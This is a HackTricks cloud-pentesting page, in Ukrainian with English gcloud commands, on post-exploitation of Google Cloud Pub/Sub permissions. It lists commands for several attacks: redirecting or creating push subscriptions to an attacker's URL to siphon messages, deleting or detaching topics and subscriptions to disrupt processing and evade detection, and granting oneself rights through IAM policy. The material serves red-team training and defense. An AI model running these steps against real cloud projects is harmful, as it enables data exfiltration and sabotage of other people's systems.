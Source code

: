 # GCP - Pub/Sub Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Pub/Sub

Для отримання додаткової інформації про Pub/Sub перегляньте наступну сторінку:

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

Опублікуйте повідомлення в темі, корисно для **відправки несподіваних даних** та активації несподіваних функцій або експлуатації вразливостей:
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

Корисно для запобігання отриманню повідомлень підпискою, можливо, щоб уникнути виявлення.
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

Корисно для запобігання отриманню повідомлень підпискою, можливо, щоб уникнути виявлення.\
Можливо видалити тему, навіть якщо до неї прикріплені підписки.
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

Використовуйте цей дозвіл, щоб оновити деякі налаштування теми, щоб порушити її, такі як `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`...

### `pubsub.topics.setIamPolicy`

Надайте собі дозвіл виконувати будь-які з попередніх атак.

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

Отримайте всі повідомлення на веб-сервері:

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

Створіть підписку та використовуйте її для **витягування повідомлень**:
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**Видалення підписки** може бути корисним для порушення системи обробки журналів або чогось подібного:
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### `pubsub.subscriptions.update`

Використовуйте цей дозвіл, щоб оновити деякі налаштування, щоб повідомлення зберігалися в місці, до якого ви маєте доступ (URL, таблиця Big Query, Bucket) або просто щоб порушити це.

{% code overflow="wrap" %}
```bash
gcloud pubsub subscriptions update --push-endpoint <your URL> <subscription-name>
```
{% endcode %}

### `pubsub.subscriptions.setIamPolicy`

Надайте собі дозволи, необхідні для виконання будь-яких з раніше згаданих атак.

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

Атакуйте схему на тему, щоб повідомлення не відповідали їй, і, отже, тема була порушена.\
Якщо немає жодних схем, можливо, вам потрібно буде створити одну.

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
{% endcode %}
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.delete`

Це може виглядати як видалення схеми, але ви зможете надсилати повідомлення, які не відповідають схемі. Однак, оскільки схема буде видалена, жодне повідомлення насправді не потрапить у тему. Тож це **БЕЗГЛУЗДО**:
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.setIamPolicy`

Надайте собі дозволи, необхідні для виконання будь-яких з раніше згаданих атак.

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

Це створить знімок усіх не підтверджених повідомлень і поверне їх назад до підписки. Не дуже корисно для атакуючого, але ось так:
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
